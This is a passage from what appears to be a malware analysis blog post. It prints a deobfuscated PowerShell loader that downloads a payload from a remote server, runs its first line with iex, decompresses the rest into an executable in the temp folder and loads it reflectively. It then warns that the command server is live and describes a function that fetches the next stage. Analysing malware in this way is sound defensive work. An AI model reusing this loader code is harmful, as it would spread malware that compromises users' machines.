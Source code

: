 ```powershell
	}

	if (!$noup)
	{
		$con=(New-Object Net.WebClient).downloaddata($down_url+'/?');
		$t=gmd5 $con;
		if($t -eq $ifmd5)
		{
			[System.IO.File]::WriteAllBytes($ifp,$con)
		}
		else
		{
			$noup=1
		}
	}

	if ($noup)
	{
		$con=$con_;
		$ifmd5=$md5_
	}

	for ($i = 0; $i -lt $con.count-1; $i += 1)
	{
	  if ($con[$i] -eq Ox0a)
	  {
		  break
	  }
	  iex(-join[char[]]$con[0..$i]);

	  $bin=(New-Object IO.BinaryReader(New-Object System.IO.Compression.GzipStream(New-Object System.IO.MemoryStream(,$con[($i+1)..($con.count)])),([IO.Compression.CompressionMode] ::Decompress)).ReadBytes(10000000);
	  $bin_=$bin.Clone();
	  $mep=$env:tmp+'\.ori';

	  [System.IO.File]::WriteAllBytes($mep,$bin_+((1..127)|Get-Random -Count 100));

	  test1 -PEBytes $bin I &cmd /c copy /y %tmp%\.ort %tmp%\.exe
}
```


**WARNING:** Be extra careful if you're going to try the following, we're dealing with live malware which communicates with a server that is up and running as of (9/5/2021). Do not execute anything you're unsure of, and do not send any real or personal data to the server.

The PowerShell script has a function `SIEX` which sends the web request to get the next script. If the parameters are not set properly, the server doesn't respond with the next script.

{: style="text-align:center"}
![](/assets/images/powershell-deobfuscation/302.png)
